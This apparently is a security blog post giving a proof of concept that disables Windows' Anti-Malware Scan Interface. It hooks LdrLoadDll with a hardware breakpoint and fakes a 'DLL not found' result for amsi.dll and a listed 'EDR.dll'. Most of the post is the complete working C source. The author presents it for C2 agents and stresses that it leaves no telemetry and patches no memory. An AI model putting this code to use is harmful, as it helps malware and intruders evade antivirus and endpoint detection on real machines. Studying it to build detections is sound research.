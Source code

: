 ```yaml
---
title: 'If you don’t want Anti-Malware Scan Interface (AMSI) then DON’T LOAD IT'
---
```

Quick PoC that disables AMSI by preventing the `amsi.dll` from being loaded into the process. This could be useful for C2 agents that have execute-assembly functionality and don’t want AMSI being enabled.

Process Monitor (from Sysinternals) gives us a good idea about what’s happening when a DLL is being loaded into a process. All the file system activity is happing inside the LoadLibrary function. 
![Procmon UI](/assets/img/2025-05-01/procmon_mainUI.png)

We can open something like the `CreateFileMapping` Win32 API call and look at the stack trace to verify it happened from inside the `LoadLibraryExW` function. We could hook any of these functions, but every `LoadLibrary` variation uses `LdrLoadDll` so that's a really good choice and high in the call stack. 
![Procmon UI](/assets/img/2025-05-01/procmon_looking_at_a_call.png)

The PoC puts a hardware breakpoint on `LdrLoadDll`, and then checks the name of every DLL being loaded, and if it finds `amsi.dll`, simulates a `STATUS_DLL_NOT_FOUND` error.

If we look at Procmon now after adding the hook, there are actually no Win32 APIs calls related to loading `amsi.dll` because we hooked `LdrLoadDll` which is so early inside the `LoadLibrary` function, it never tries to open the file or make any syscalls. It also means there is no telemetry of the `LoadLibrary` failing. 
![Procmon UI](/assets/img/2025-05-01/no_amsi_in_procmon.png)

Its also got the advantage of not patching any memory to be OPSEC safe.

```c
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>

#define ArraySize(x) (sizeof x / sizeof x[0])

typedef NTSTATUS (NTAPI* LdrLoadDll)(
    IN  PWCHAR          PathToFile OPTIONAL,
    IN  ULONG           Flags OPTIONAL,
    IN  PUNICODE_STRING ModuleFileName,
    OUT PHANDLE         ModuleHandle
);

LdrLoadDll fnLdrLoadDll = NULL;

LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {

    PCWCHAR blockedDLLs[] = {
        L"amsi.dll",
        L"EDR.dll",
    };

    // Check if this is a single-step exception caused by a hardware breakpoint
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        // Check if the breakpoint was hit for LdrLoadDll
        if (ExceptionInfo->ExceptionRecord->ExceptionAddress == fnLdrLoadDll) {
            // x64 calling convention, 3rd parameter is in R8
            PUNICODE_STRING moduleName = (PUNICODE_STRING)ExceptionInfo->ContextRecord->R8;
            if (moduleName && moduleName->Buffer) {
                for (DWORD i = 0; i < ArraySize(blockedDLLs); i++) {
                    // Performs a case-insensitive comparison of strings
                    if (_wcsicmp(moduleName->Buffer, blockedDLLs[i]) == 0) {
                        // we dont want to load it, so simulate a ret
                        ExceptionInfo->ContextRecord->Rip = *(ULONG_PTR*)ExceptionInfo->ContextRecord->Rsp;
                        ExceptionInfo->ContextRecord->Rsp += sizeof(PVOID);
                        ExceptionInfo->ContextRecord->Rax = STATUS_DLL_NOT_FOUND;
                        wprintf(L"BLOCKED: %wZ\n", moduleName);
                        break;
                    }
                }
            }

            // Set the resume flag before continuing execution
            ExceptionInfo->ContextRecord->EFlags |= 0x10000;
            return EXCEPTION_CONTINUE_EXECUTION;
        }
    }

    return EXCEPTION_CONTINUE_SEARCH;
}

void EnableBreakpoint(HANDLE hThread, const PVOID address) {

    CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };

    if (!GetThreadContext(hThread, &context)) {
        return;
    }

    context.Dr0 = (DWORD_PTR)address;
    context.Dr7 |= 1;  // Enable the breakpoint for execution on DR0

    // Set the thread context with the updated debug registers
    if (!SetThreadContext(hThread, &context)) {
        return;
    }

}

int main(void) {

    HMODULE ntdll = GetModuleHandle(TEXT("ntdll.dll"));
    if (!ntdll) return 1;

    fnLdrLoadDll = (LdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    if (!fnLdrLoadDll) return 1;

    HANDLE hExHandler = AddVectoredExceptionHandler(1, ExceptionHandler);
    EnableBreakpoint(GetCurrentThread(), fnLdrLoadDll);

    HMODULE amsi = LoadLibrary(TEXT("amsi.dll"));
    if (!amsi) {
        printf("LoadLibrary failed: %lu\n", GetLastError());
        // I bet you'll get
        // ERROR_MOD_NOT_FOUND 126 (0x7E)
        // https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-
    }

    return 0;
}
```